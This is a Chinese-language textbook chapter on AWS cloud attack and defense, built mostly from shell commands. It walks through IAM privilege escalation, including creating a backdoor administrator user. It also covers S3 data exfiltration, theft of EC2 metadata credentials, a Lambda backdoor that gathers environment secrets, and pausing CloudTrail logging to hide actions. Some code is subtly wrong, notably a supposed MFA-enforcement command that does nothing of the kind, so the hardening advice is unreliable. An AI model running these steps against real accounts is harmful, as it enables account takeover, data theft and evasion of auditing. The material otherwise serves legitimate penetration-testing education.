


## 19.1 AWS安全核心技巧

AWS是全球市场份额最大的云平台（截至2025年约31%），也是云安全研究中被分析最透彻的目标。本节从攻击者视角系统讲解AWS环境中的核心攻防技术，涵盖IAM身份安全、存储安全、计算安全、网络与日志安全四大领域。每个技术点都遵循"原理→方法→实操→防御"的结构，确保读者既能发起安全评估，也能构建防御体系。

### 19.1.1 AWS攻击面全景

在深入具体技术之前，需要先建立对AWS攻击面的整体认知。AWS的服务数量超过200个，但攻击面可以归纳为以下几个核心维度：

| 攻击面维度 | 核心服务 | 典型攻击目标 | 影响范围 |
|------------|----------|-------------|----------|
| 身份与访问 | IAM、STS、Organizations | 凭证泄露、权限提升、角色滥用 | 全局 |
| 存储服务 | S3、EBS、RDS、DynamoDB | 数据泄露、未授权访问、加密绕过 | 数据层 |
| 计算服务 | EC2、Lambda、ECS、Fargate | 元数据利用、代码注入、逃逸 | 实例层 |
| 网络层 | VPC、Security Groups、ELB | 网络嗅探、端口暴露、横向移动 | 网络层 |
| 日志与监控 | CloudTrail、Config、GuardDuty | 日志篡改、检测规避、告警抑制 | 审计层 |
| 供应链 | CodePipeline、ECR、SAM | 镜像投毒、CI/CD劫持、依赖污染 | 开发层 |



**AWS vs 传统环境的关键区别**：

在传统渗透测试中，获得一台服务器的shell往往意味着可以横向移动到整个内网。在AWS环境中，逻辑完全不同——每个API调用都经过IAM策略引擎的鉴权，权限被精确控制到API级别。这意味着攻击者需要的不是"越权"，而是"发现被授予的权限"。理解这个根本区别，是掌握AWS安全评估的第一步。

### 19.1.2 IAM枚举与权限分析

IAM（Identity and Access Management）是AWS安全的核心。每一个AWS API调用都必须通过IAM策略引擎的鉴权，理解IAM的工作机制是所有AWS安全评估的基础。

#### IAM策略引擎工作原理

当一个API请求到达AWS时，IAM策略引擎按以下顺序评估：

1. **显式Deny检查**：如果任何附加策略包含Deny，请求立即被拒绝（Deny优先）
2. **显式Allow检查**：必须存在至少一条匹配的Allow策略
3. **隐式Deny**：如果没有匹配的Allow，请求被隐式拒绝

策略可以附加在四个位置，评估时会合并：

```text
组织级SCP（Service Control Policy）
    └── 账户级权限边界（Permission Boundary）
        └── 身份级策略（IAM User/Role Policy）
            └── 资源级策略（Resource Policy / Bucket Policy）
```

**关键理解**：SCP和Permission Boundary是"天花板"——即使身份级策略授予了管理员权限，如果SCP限制了只允许S3操作，那么该身份也只能操作S3。很多安全评估中忽略这两个约束，导致对权限的误判。

#### 快速身份枚举

获取AWS凭证后的第一步是确认当前身份和权限边界：

```bash
# 确认当前身份——返回Account、Arn、UserId三个关键字段
aws sts get-caller-identity

# 输出示例：
# {
#   "Account": "123456789012",
#   "Arn": "arn:aws:iam::123456789012:user/developer",
#   "UserId": "AIDAEXAMPLE"
# }

# 从Arn可以判断身份类型：
# arn:aws:iam::*:user/*     → IAM用户（长期凭证）
# arn:aws:sts::*:assumed-role/* → 假设角色（临时凭证）
# arn:aws:sts::*:federated-user/* → 联邦用户
```

获取当前用户附加的策略：

```bash
# 获取当前用户名
CURRENT_USER=$(aws sts get-caller-identity --query 'Arn' --output text | awk -F'/' '{print $2}')

# 列出直接附加的托管策略
aws iam list-attached-user-policies --user-name "$CURRENT_USER"

# 列出内联策略（自定义JSON策略）
aws iam list-user-policies --user-name "$CURRENT_USER"

# 列出用户所属的组
aws iam list-groups-for-user --user-name "$CURRENT_USER"

# 获取组级策略
for group in $(aws iam list-groups-for-user --user-name "$CURRENT_USER" \
  --query 'Groups[*].GroupName' --output text); do
    echo "=== Group: $group ==="
    aws iam list-attached-group-policies --group-name "$group"
    aws iam list-group-policies --group-name "$group"
done
```

**获取当前会话的完整权限**：

```bash
# 使用 get-session-policy 获取当前会话的有效权限
# 这是最快了解自己能做什么的方式
aws iam simulate-principal-policy \
  --policy-source-arn "$(aws sts get-caller-identity --query Arn --output text)" \
  --action-names "s3:*" "ec2:*" "iam:*" "lambda:*" "sts:*" \
  --query 'EvaluationResults[*].[EvalActionName,EvalDecision]' \
  --output table
```

#### 枚举账户中的IAM资源

一旦确认了当前身份，下一步是枚举环境中所有可访问的IAM资源：

```bash
# 枚举所有IAM用户
aws iam list-users --query 'Users[*].[UserName,CreateDate,PasswordLastUsed]' --output table

# 枚举所有IAM角色（重点关注信任策略）
aws iam list-roles --query 'Roles[*].[RoleName,CreateDate,MaxSessionDuration]' --output table

# 检查每个角色的信任策略——这是发现可假设角色的关键
for role in $(aws iam list-roles --query 'Roles[*].RoleName' --output text); do
    trust=$(aws iam get-role --role-name "$role" --query 'Role.AssumeRolePolicyDocument' --output json 2>/dev/null)
    account=$(aws sts get-caller-identity --query 'Account' --output text)
    
    # 检查是否可以被当前账户假设
    if echo "$trust" | grep -q "$account"; then
        echo "[+] Assumable role (same account): $role"
    fi
    
    # 检查是否允许外部账户假设（高价值目标）
    if echo "$trust" | grep -qE '"AWS":\s*"arn:aws:iam::[0-9]+'; then
        external=$(echo "$trust" | grep -oE 'arn:aws:iam::[0-9]+:root' | head -1)
        echo "[!] Cross-account role: $role → $external"
    fi
    
    # 检查是否允许所有人假设（严重配置错误）
    if echo "$trust" | grep -q '"Principal":\s*"\*"'; then
        echo "[CRITICAL] Public role: $role"
    fi
done

# 枚举所有IAM组
aws iam list-groups

# 枚举所有自定义托管策略
aws iam list-policies --scope Local --query 'Policies[*].[PolicyName,Arn,AttachmentCount]' --output table

# 枚举实例配置文件（EC2的IAM角色）
aws iam list-instance-profiles
```

#### IAM权限提升路径

IAM提权是指利用现有权限获得更高权限的能力。以下是AWS中最常见的提权路径：

**路径1：直接创建管理员用户**

```bash
# 如果有 iam:CreateUser + iam:AttachUserPolicy 权限
aws iam create-user --user-name backdoor-admin
aws iam attach-user-policy --user-name backdoor-admin \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-login-profile --user-name backdoor-admin \
  --password 'Tempyour_password123!' --no-password-reset-required
aws iam create-access-key --user-name backdoor-admin
```

**路径2：修改现有策略**

```bash
# 如果有 iam:CreatePolicyVersion 权限
# 创建一个包含管理员权限的策略文档
cat > admin-policy.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
EOF

# 将现有策略替换为管理员版本
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/ExistingPolicy \
  --policy-document file://admin-policy.json \
  --set-as-default
```

**路径3：修改自身权限边界**

```bash
# 如果有 iam:DeleteUserPermissionsBoundary 权限
# 移除权限边界可以解锁被边界限制的权限
aws iam delete-user-permissions-boundary --user-name developer
```

**路径4：通过Lambda提权**

```bash
# 如果有 lambda:UpdateFunctionCode + iam:PassRole
# 更新Lambda函数代码为恶意代码，该函数可能拥有更高权限的角色
cat > lambda_payload.py << 'EOF'
import boto3
import json

def handler(event, context):
    iam = boto3.client('iam')
    iam.attach_user_policy(
        UserName='developer',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return {'statusCode': 200, 'body': 'Done'}
EOF

zip payload.zip lambda_payload.py
aws lambda update-function-code --function-name my-function --zip-file fileb://payload.zip
```

**路径5：通过Glue/Step Functions提权**

```bash
# Glue Dev Endpoint拥有附加的IAM角色
# 如果有 glue:CreateDevEndpoint 权限
aws glue create-dev-endpoint \
  --endpoint-name privesc-endpoint \
  --role-arn arn:aws:iam::123456789012:role/GlueServiceRole \
  --public-key-file ~/.ssh/id_rsa.pub

# 等待Endpoint创建完成后SSH连接
ssh glue@<endpoint-url> -i ~/.ssh/id_rsa
# 现在在Glue角色的权限上下文中执行命令
```

**自动化工具辅助扫描**：

```bash
# Pacu——AWS渗透测试框架
pip install pacu
pacu

# 在Pacu中执行权限枚举和提权扫描
Pacu> import_keys --profile default
Pacu> run iam__enum_permissions
Pacu> run iam__privesc_scan

# enumerate-iam——暴力枚举所有API权限
pip install enumerate-iam
enumerate-iam --access-key AKIA... --secret-key ...

# CloudMapper——可视化分析
cloudmapper collect --account myaccount
cloudmapper webserver  # 在浏览器中查看资源关系图
```

#### 常见IAM安全错误配置

| 错误配置 | 风险等级 | 检测方法 | 影响 |
|----------|---------|---------|------|
| 用户无MFA | 高 | `aws iam list-mfa-devices` | 凭证泄露后可直接使用 |
| Access Key未轮换 | 高 | 检查Key创建时间>90天 | 泄露凭证长期有效 |
| AdministratorAccess附加到用户 | 严重 | `list-attached-user-policies` | 完全控制 |
| 角色信任策略过于宽松 | 严重 | 分析AssumeRolePolicyDocument | 跨账户/公开可假设 |
| 根账户Access Key存在 | 严重 | 需要根账户登录检查 | 完全控制且无法限制 |
| 无权限边界 | 中 | `get-user`无PermissionBoundary | 权限膨胀 |
| 未使用的凭证 | 中 | 检查PasswordLastUsed/AccessKeyLastUsed | 攻击面增大 |

### 19.1.3 S3存储安全

S3（Simple Storage Service）是AWS使用最广泛的服务之一，也是数据泄露事件最高频的源头。根据IBM《2024年数据泄露成本报告》，云配置错误导致的数据泄露平均损失为445万美元。S3安全评估是AWS安全测试中最基础也最重要的环节。

#### S3访问控制机制

S3有四层访问控制，理解它们的叠加关系是评估S3安全的关键：



**关键概念**：S3 Block Public Access是AWS在2018年引入的安全机制，可以在账户级别或存储桶级别阻止公开访问。即使Bucket Policy中设置了允许公开访问，如果Block Public Access启用，公开访问仍然会被阻止。但这个设置经常被误解或遗漏。

#### S3枚举与发现

在安全评估中，发现目标组织的S3存储桶是第一步：

```bash
# 方法1：通过已知凭证枚举
aws s3 ls
aws s3api list-buckets --query 'Buckets[*].[Name,CreationDate]' --output table

# 方法2：子域名枚举发现桶名
# S3桶可以通过 <bucket-name>.s3.amazonaws.com 访问
amass enum -d target.com -passive | grep -iE 's3|bucket'
subfinder -d target.com | grep -iE 's3'

# 方法3：使用CloudBrute批量枚举公开桶
cloudbrute -d target.com -k aws -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -o results.txt

# 方法4：搜索引擎发现
# Google Dork: site:s3.amazonaws.com "target.com"
# GrayHatWarfare: https://grayhatwarfare.com/buckets

# 方法5：从网站源代码和JS文件中提取
curl -s https://target.com | grep -oE '[a-z0-9][a-z0-9.-]*\.s3[.-](?:us-east-1|us-west-2|eu-west-1)?\.?amazonaws\.com'
curl -s https://target.com/static/app.js | grep -oE 's3[a-z.-]*\.amazonaws\.com/[a-z0-9-]+'
```

#### S3安全检查清单

```bash
# ===== 存储桶级别检查 =====

# 检查1：公开访问阻止状态
aws s3api get-public-access-block --bucket target-bucket
# 关注：BlockPublicAcls、IgnorePublicAcls、BlockPublicPolicy、RestrictPublicBuckets

# 检查2：桶策略分析
aws s3api get-bucket-policy --bucket target-bucket --output text | python3 -m json.tool
# 关注：Principal是否为"*"，Action是否包含s3:GetObject

# 检查3：ACL检查
aws s3api get-bucket-acl --bucket target-bucket
# 关注：Grantee为 AllUsers 或 AuthenticatedUsers 的授权

# 检查4：加密配置
aws s3api get-bucket-encryption --bucket target-bucket 2>/dev/null
# 返回null表示未启用默认加密

# 检查5：版本控制状态
aws s3api get-bucket-versioning --bucket target-bucket
# 未启用版本控制意味着删除操作不可恢复

# 检查6：日志记录
aws s3api get-bucket-logging --bucket target-bucket
# 未启用日志记录意味着无法审计访问行为

# 检查7：生命周期配置
aws s3api get-bucket-lifecycle-configuration --bucket target-bucket 2>/dev/null
# 无生命周期配置可能导致过期数据堆积

# ===== 对象级别检查 =====

# 列出所有对象，查找敏感文件模式
aws s3 ls s3://target-bucket/ --recursive | grep -iE '\.(sql|bak|env|config|key|pem|p12|pfx|csv|xlsx|dump|tar|gz|zip|7z|secret|credentials|token)$'

# 检查对象ACL——是否有公开可读的对象
for obj in $(aws s3api list-objects-v2 --bucket target-bucket --query 'Contents[*].Key' --output text | head -20); do
    acl=$(aws s3api get-object-acl --bucket target-bucket --key "$obj" 2>/dev/null)
    if echo "$acl" | grep -q "AllUsers"; then
        echo "[PUBLIC] $obj"
    fi
done

# 检查是否有旧版本文件（可能包含已删除的敏感数据）
aws s3api list-object-versions --bucket target-bucket \
  --query 'Versions[*].[Key,VersionId,LastModified,Size]' --output table

# 检查删除标记
aws s3api list-object-versions --bucket target-bucket \
  --query 'DeleteMarkers[*].[Key,VersionId,LastModified]' --output table
```

#### S3数据提取与分析

```bash
# 批量下载所有可访问文件
aws s3 sync s3://target-bucket/ ./exfiltrated/ --quiet

# 只下载特定类型文件
aws s3 cp s3://target-bucket/ ./exfiltrated/ --recursive \
  --exclude "*" --include "*.env" --include "*.config" --include "*.key"

# 搜索文件内容中的敏感信息
grep -rE '(password|secret|api.?key|token|private.?key|aws.?access)' ./exfiltrated/
grep -rE '(AKIA[0-9A-Z]{16})' ./exfiltrated/  # AWS Access Key格式
grep -rE '([a-zA-Z0-9+/]{40})' ./exfiltrated/  # 可能的Secret Key

# 检查CloudTrail日志桶（如果可以访问审计日志）
aws s3 ls s3://cloudtrail-logs-bucket/AWSLogs/ --recursive | head -50
```

#### S3典型漏洞场景

**场景1：Bucket Policy中的Principal通配符**

```json
// 危险配置——允许任何人读取
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::sensitive-bucket/*"
    }
  ]
}
```

**场景2：ACL中的AuthenticatedUsers**

AuthenticatedUsers不是"本账户认证的用户"，而是"所有AWS认证用户"——任何拥有AWS账户的人都能访问：

```bash
# 检查是否有AuthenticatedUsers授权
aws s3api get-bucket-acl --bucket target-bucket | \
  python3 -c "
import json,sys
acl = json.load(sys.stdin)
for grant in acl.get('Grants',[]):
    uri = grant.get('Grantee',{}).get('URI','')
    if 'AuthenticatedUsers' in uri:
        print(f'[!] AuthenticatedUsers has: {grant[\"Permission\"]}')
"
```

**场景3：Pre-signed URL泄露**

Pre-signed URL是有时效性的访问链接，但如果URL被记录在日志、代码仓库或聊天记录中，在过期前都可以直接使用：

```bash
# 如果发现了pre-signed URL，直接访问
curl -o leaked-file.csv "https://sensitive-bucket.s3.amazonaws.com/data.csv?X-Amz-Security-Token=..."
```

### 19.1.4 EC2实例安全与元数据利用

EC2实例是AWS中最基础的计算服务。攻击EC2实例的核心路径包括元数据服务利用、安全组配置分析和EBS卷访问。

#### EC2元数据服务（IMDS）

EC2实例可以通过元数据服务获取自身的配置信息，包括附加的IAM角色临时凭证。这是AWS安全中最经典的攻击路径之一。

**IMDSv1 vs IMDSv2 对比**：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 访问方式 | 直接HTTP GET | 需先获取Token |
| 防护能力 | 无防护 | 防止SSRF利用 |
| Token获取 | 不需要 | PUT请求 + TTL |
| Hop Limit | 1跳（默认） | 可配置1-64跳 |
| AWS建议 | 已弃用 | 推荐强制使用 |

**IMDSv1利用（从SSRF或已获取的shell）**：

```bash
# 步骤1：探测元数据服务可达性
curl -s http://169.254.169.254/latest/meta-data/
# 返回目录列表表示可达

# 步骤2：获取实例信息（用于确认环境）
curl -s http://169.254.169.254/latest/meta-data/instance-id
curl -s http://169.254.169.254/latest/meta-data/instance-type
curl -s http://169.254.169.254/latest/meta-data/ami-id
curl -s http://169.254.169.254/latest/meta-data/placement/region

# 步骤3：检查是否附加了IAM角色
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
# 返回角色名，或404表示没有附加角色

# 步骤4：获取临时凭证
ROLE_NAME=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
# 返回JSON包含 AccessKeyId, SecretAccessKey, Token, Expiration

# 步骤5：配置AWS CLI使用获取的凭证
CREDS=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | python3 -c "import sys,json; print(json.load(sys.stdin)['AccessKeyId'])")
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | python3 -c "import sys,json; print(json.load(sys.stdin)['SecretAccessKey'])")
export AWS_SESSION_TOKEN=$(echo $CREDS | python3 -c "import sys,json; print(json.load(sys.stdin)['Token'])")

# 步骤6：验证身份并枚举权限
aws sts get-caller-identity
```

**其他有价值的元数据**：

```bash
# 用户数据（UserData）——经常包含初始化脚本和硬编码凭证
curl -s http://169.254.169.254/latest/user-data
# UserData可能是base64编码的
curl -s http://169.254.169.254/latest/user-data | base64 -d

# 网络配置
curl -s http://169.254.169.254/latest/meta-data/network/interfaces/macs/
# 获取VPC ID、子网ID、安全组
curl -s http://169.254.169.254/latest/meta-data/network/interfaces/macs/<mac>/vpc-id
curl -s http://169.254.169.254/latest/meta-data/network/interfaces/macs/<mac>/subnet-id
curl -s http://169.254.169.254/latest/meta-data/network/interfaces/macs/<mac>/security-groups

# 动态数据——包含账户信息
curl -s http://169.254.169.254/latest/dynamic/instance-identity/document
# 返回accountId, imageId, instanceType, region等
```

**绕过IMDSv2限制的方法**：

IMDSv2要求先通过PUT请求获取Token，这可以防御大多数SSRF攻击，因为PUT请求通常不被SSRF支持。但存在以下绕过场景：

```bash
# 场景1：如果有命令执行权限（非纯SSRF）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 场景2：Docker容器中Hop Limit配置不当
# IMDSv2使用IP TTL=1来防止SSRF转发
# 但如果Hop Limit设置>1，容器内可以绕过
# 检查方法：
aws ec2 describe-instances --instance-ids i-xxx \
  --query 'Reservations[*].Instances[*].MetadataOptions'

# 场景3：利用覆盖HTTP头的SSRF
# 某些SSRF允许设置自定义请求头，可以直接携带Token
```

#### EC2安全组与网络

```bash
# 枚举所有安全组
aws ec2 describe-security-groups \
  --query 'SecurityGroups[*].[GroupId,GroupName,VpcId]' --output table

# 检查是否允许0.0.0.0/0入站（面向公网）
aws ec2 describe-security-groups \
  --filters "Name=ip-permission.cidr,Values=0.0.0.0/0" \
  --query 'SecurityGroups[*].[GroupId,GroupName,IpPermissions[?CidrIp==`0.0.0.0/0`].[FromPort,ToPort,IpProtocol]]' \
  --output table

# 检查SSH（22）和RDP（3389）端口是否暴露
aws ec2 describe-security-groups \
  --query 'SecurityGroups[?IpPermissions[?FromPort==`22` && CidrIp==`0.0.0.0/0`]].[GroupId,GroupName]'

# 枚举EC2实例
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[*].[InstanceId,InstanceType,State.Name,PublicIpAddress,PrivateIpAddress,KeyName]' \
  --output table

# 检查是否有实例附加了公网IP
aws ec2 describe-instances \
  --filters "Name=instance-state-name,Values=running" \
  --query 'Reservations[*].Instances[?PublicIpAddress!=null].[InstanceId,PublicIpAddress,KeyName]'
```

#### EBS卷访问

```bash
# 创建EBS快照（如果有权限）
aws ec2 create-snapshot --volume-id vol-xxx --description "security-assessment"

# 检查快照是否公开（任何人都可以挂载公开快照）
aws ec2 describe-snapshots --owner-ids self \
  --query 'Snapshots[*].[SnapshotId,VolumeSize,State,Description]'

# 查找公开快照（其他账户的公开快照可能包含敏感数据）
aws ec2 describe-snapshots --restorable-by-user-ids all \
  --filters "Name=owner-alias,Values=amazon" \
  --max-results 10

# 挂载快照并分析
# 1. 从快照创建卷
aws ec2 create-volume --snapshot-id snap-xxx --availability-zone us-east-1a
# 2. 将卷附加到分析实例
aws ec2 attach-volume --volume-id vol-yyy --instance-id i-zzz --device /dev/sdf
# 3. 在实例内挂载并分析
sudo mount /dev/xvdf /mnt/snapshot
find /mnt/snapshot -name "*.env" -o -name "*.key" -o -name "credentials"
```

### 19.1.5 Lambda安全评估

Lambda是AWS的Serverless计算服务。Lambda函数通常拥有IAM执行角色，这使得Lambda成为权限提升和持久化的理想载体。

#### Lambda枚举与分析

```bash
# 列出所有Lambda函数
aws lambda list-functions \
  --query 'Functions[*].[FunctionName,Runtime,LastModified,MemorySize,Timeout]' \
  --output table

# 获取函数源代码（查找硬编码凭证）
FUNC_URL=$(aws lambda get-function --function-name target-func \
  --query 'Code.Location' --output text)
curl -o func.zip "$FUNC_URL"
unzip -q func.zip -d func-code/
grep -rE '(password|secret|api.?key|token|AKIA[0-9A-Z]{16})' func-code/

# 检查环境变量（经常包含数据库连接串和API密钥）
aws lambda get-function-configuration --function-name target-func \
  --query 'Environment.Variables' --output json

# 检查执行角色（评估提权可能性）
aws lambda get-function-configuration --function-name target-func \
  --query 'Role' --output text

# 检查VPC配置（如果在VPC中，可能访问内部资源如RDS）
aws lambda get-function-configuration --function-name target-func \
  --query 'VpcConfig' --output json

# 检查触发器（攻击面分析）
aws lambda list-event-source-mappings --function-name target-func

# 检查Lambda层（可能包含共享依赖或凭证）
aws lambda list-layers --query 'Layers[*].[LayerName,LatestMatchingVersion.Version]' --output table
```

#### Lambda攻击场景

```bash
# 场景1：修改函数代码实现持久化
# 如果有 lambda:UpdateFunctionCode 权限
cat > backdoor.py << 'EOF'
import boto3
import json
import base64

def handler(event, context):
    # 原始逻辑保持不变（避免被发现）
    original_result = original_logic(event)
    
    # 后门：将事件数据发送到外部
    exfil = {
        'event': base64.b64encode(json.dumps(event).encode()).decode(),
        'env': dict(os.environ)
    }
    # 通过DNS或其他隐蔽通道外传数据
    return original_result

def original_logic(event):
    return {'statusCode': 200}
EOF

# 场景2：Lambda提权到EC2
# 如果Lambda在VPC中，可以扫描内网
# Lambda角色可能有权创建EC2实例
aws ec2 run-instances --image-id ami-xxx --instance-type t2.micro \
  --iam-instance-profile Name=HighPrivilegeProfile \
  --security-group-ids sg-xxx --subnet-id subnet-xxx
```

### 19.1.6 CloudTrail日志安全与规避

CloudTrail是AWS的API审计服务，记录几乎所有API调用。攻击者想要持久化，必须处理CloudTrail。

#### CloudTrail枚举

```bash
# 列出所有Trail
aws cloudtrail describe-trails --query 'trailList[*].[Name,S3BucketName,IsMultiRegionTrail,IsLogging]' --output table

# 检查日志是否发送到当前账户的S3桶
aws cloudtrail get-trail --name trail-name --query 'Trail.S3BucketName'

# 检查是否有日志文件完整性验证
aws cloudtrail get-trail-status --name trail-name

# 检查CloudWatch集成（实时告警）
aws cloudtrail describe-trails --query 'trailList[?CloudWatchLogsLogGroupArn!=null].[Name,CloudWatchLogsLogGroupArn]'
```

#### CloudTrail规避技术

```bash
# 规避1：在CloudTrail未覆盖的区域操作
# 如果Trail不是Multi-Region，在其他区域的操作不会被记录
aws cloudtrail describe-trails --query 'trailList[?IsMultiRegionTrail==`false`].[Name,HomeRegion]'

# 规避2：某些API调用不被CloudTrail记录
# 已知不记录的操作包括：
# - S3数据平面操作（GetObject/PutObject）需要额外启用Data Events
# - 部分STS操作
# - CloudSearch、WorkDocs等小众服务

# 规避3：删除CloudTrail（需要高权限，但会留下明显痕迹）
aws cloudtrail delete-trail --name security-trail  # 不推荐——过于明显

# 规避4：停止日志记录（短暂窗口）
aws cloudtrail stop-logging --name security-trail
# 执行恶意操作
aws cloudtrail start-logging --name security-trail

# 检测方法：监控 CloudTrail StopLogging 事件
# 在CloudWatch中设置告警：EventName=StopLogging
```

### 19.1.7 STS与跨账户攻击

AWS STS（Security Token Service）提供临时凭证，是跨账户访问和联邦身份验证的核心。

```bash
# 尝试假设角色——如果知道目标账户ID和角色名
aws sts assume-role \
  --role-arn arn:aws:iam::TARGET_ACCOUNT:role/CrossAccountRole \
  --role-session-name pentest-session \
  --external-id known-external-id  # 如果需要的话

# 使用获取的临时凭证
export AWS_ACCESS_KEY_ID=$(cat assume-role-output.json | python3 -c "import sys,json; print(json.load(sys.stdin)['Credentials']['AccessKeyId'])")
export AWS_SECRET_ACCESS_KEY=$(cat assume-role-output.json | python3 -c "import sys,json; print(json.load(sys.stdin)['Credentials']['SecretAccessKey'])")
export AWS_SESSION_TOKEN=$(cat assume-role-output.json | python3 -c "import sys,json; print(json.load(sys.stdin)['Credentials']['SessionToken'])")

# 检查联合身份配置
aws iam list-saml-providers
aws iam list-open-id-connect-providers
```

### 19.1.8 AWS安全评估工具矩阵

在安全评估中使用专业工具可以大幅提高效率。以下是AWS安全评估中最核心的工具对比：

| 工具 | 定位 | 核心能力 | 使用场景 | 安装方式 |
|------|------|---------|---------|---------|
| **Prowler** | 合规扫描 | 基于CIS Benchmark的300+检查项 | 安全基线评估 | `pip install prowler` |
| **ScoutSuite** | 多云审计 | 可视化报告、多服务覆盖 | 全面安全评估 | `pip install scoutsuite` |
| **Pacu** | 攻击框架 | 权限提升、数据窃取、持久化 | 红队渗透 | `pip install pacu` |
| **enumerate-iam** | 权限枚举 | 暴力测试所有API权限 | 权限发现 | `pip install enumerate-iam` |
| **CloudMapper** | 架构分析 | 资源可视化、网络分析 | 架构理解 | `git clone` + `make` |
| **CloudSploit** | 配置扫描 | 实时配置检查 | 持续监控 | `npm install` |
| **PacBot** | 合规平台 | 持续合规、策略管理 | 企业级 | Docker部署 |

**Prowler使用详解**（推荐首选工具）：

```bash
# 安装
pip install prowler

# 运行所有检查
prowler aws

# 只运行特定服务的检查
prowler aws --checks-extra checks/s3
prowler aws --checks-extra checks/iam

# 只运行高危项
prowler aws --severity critical high

# 生成HTML报告
prowler aws --output-format html

# 针对特定合规框架
prowler aws --compliance cis_2.0_aws
prowler aws --compliance pci_3.2.1

# 使用特定Profile
prowler aws --profile pentest-profile
```

**Pacu使用详解**（红队首选）：

```bash
# 启动Pacu
pacu

# 导入AWS凭证
Pacu> import_keys --profile default

# 枚举当前权限
Pacu> run iam__enum_permissions

# 权限提升扫描
Pacu> run iam__privesc_scan

# 枚举S3数据
Pacu> run s3__bucket_dump --dl-all

# EC2枚举
Pacu> run ec2__enum

# 枚举Lambda
Pacu> run lambda__enum

# 凭证窃取
Pacu> run iam__backdoor_users_keys
Pacu> run iam__backdoor_users_password

# 导出所有发现
Pacu> data iam
Pacu> data iam --sessions
```

### 19.1.9 防御加固要点

安全评估的最终目的是改善安全态势。以下是针对前述攻击路径的防御措施：

#### IAM安全加固

```bash
# 强制所有IAM用户启用MFA
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::aws:policy/IAMUserChangePassword

# 使用条件键强制MFA
# 在策略中添加：
# "Condition": {"Bool": {"aws:MultiFactorAuthPresent": "true"}}

# 设置Access Key自动轮换（使用AWS Config规则）
aws configservice put-config-rule --config-rule '{
  "ConfigRuleName": "access-keys-rotated",
  "Source": {
    "Owner": "AWS",
    "SourceIdentifier": "ACCESS_KEYS_ROTATED"
  },
  "InputParameters": "{\"maxAccessKeyAge\": \"90\"}"
}'

# 设置权限边界限制新用户权限
aws iam put-user-permissions-boundary --user-name new-user \
